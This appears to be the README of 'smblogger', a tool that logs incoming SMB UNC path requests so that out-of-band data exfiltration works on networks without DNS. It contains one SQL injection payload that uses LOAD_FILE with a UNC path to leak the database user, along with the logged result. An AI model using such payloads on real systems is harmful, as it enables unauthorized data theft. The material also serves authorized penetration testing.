 # smblogger
Log requests of requested UNC paths (for OOB exploits).

####What do I need it for?
This is useful in situations where you want to exfiltrate data via SMB. For example, you found SQL injection but you don't have a domain or can't use DNS. This is common inside private networks without internet access.

For example, let's say you injected the following query:
`SELECT * FROM test WHERE 1=1 OR LOAD_FILE(CONCAT("\\\\127.0.0.1\\",USER()))
`
The script would output:
`[-] SMB2_TREE_CONNECT root@localhost`